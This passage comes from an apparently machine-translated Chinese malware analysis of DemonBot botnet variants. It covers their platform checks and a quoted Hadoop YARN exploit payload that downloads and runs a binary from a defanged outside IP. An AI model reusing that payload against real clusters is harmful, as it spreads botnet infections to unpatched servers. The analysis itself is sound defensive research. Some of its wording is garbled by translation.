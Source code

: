 *请注意，该字符串与之前在 DemonBot 源代码中发现的非常相似，但这次在第一个方括号中使用了“Supra”而不是“shell ”:*

```
*[**Supra**]–>[%s]–>[%s]–>[%s]–>[%s]–>[%s]*
```

*新的二进制代码还包含平台检测代码中扩展的指示符。最初的 DemonBot 检查了两个平台*

*   *Ubuntu/Debian，基于/usr/bin/apt-get 的存在，以及*
*   *RHEL/Centos，基于/usr/bin/yum 的存在*

*上文补充了以上两点:*

*   *Gentoo: /usr/lib/portage*
*   *OpenSUSE: /usr/share/YaST2*
*   *OpenWRT: /etc/dropbear*
*   *未知:/etc/opkg*
*   *Dropbear: /etc/ssh/*
*   *Telnet: /etc/xinet.d/telnet*

*用于这个 DemonBot 版本的编译版本与最初的 DemonBot: GCC (GNU) 4.2.1 相同。*

# *Hoho，希腊的僵尸网络。艾里奥斯*

*Hadoop YARN exploit 有效负载:*

```
*{"am-container-spec": {"commands": {"command": "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://68.183.96[.]48/bins/hoho.x86 -O /tmp/flex; chmod +x /tmp/flex; /tmp/flex servers"}}, "application-id": "application_XXXXXXXXXXXXX_XXXX", "application-type": "YARN", "application-name": "get-shell"}*
```

*二进制文件于 2018 年 10 月 30 日首次出现在服务器上:*

*![](img/081c3e5e31a769fa80089d77ebe31bdc.png)*
